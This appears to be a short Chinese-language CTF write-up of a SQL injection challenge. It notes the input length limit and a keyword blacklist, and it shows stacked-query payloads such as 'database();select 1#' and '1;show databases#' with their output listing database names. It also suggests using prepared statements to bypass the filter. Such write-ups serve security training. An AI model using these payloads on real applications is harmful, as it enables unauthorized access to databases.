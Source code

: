 `select query from xxxx;`

输出:

too long,nonono,结果

长度限制:40

黑名单:`sleep,or,",from,where,outfile`

奇怪的输出

`123`=>`1`

`123#`=>`123`

由这两个可以猜测sql语句类似

`select query from xxxx;`

`database();select%201%23`

结果

```
Array
(
    [0] => ctf
)
Array
(
    [0] => 1
)
```

可以执行多个sql语句,可以试着用prepare绕过黑名单////禁用from................

`1;show%20databases%23`

```

Array
(
    [0] => 1
)
Array
(
    [0] => ctf
)
Array
(
    [0] => ctftraining
)
Array
(
    [0] => information_schema
)
Array
(
    [0] => mysql
)
Array
(
    [0] => performance_schema
)
Array
(
    [0] => test
)
```
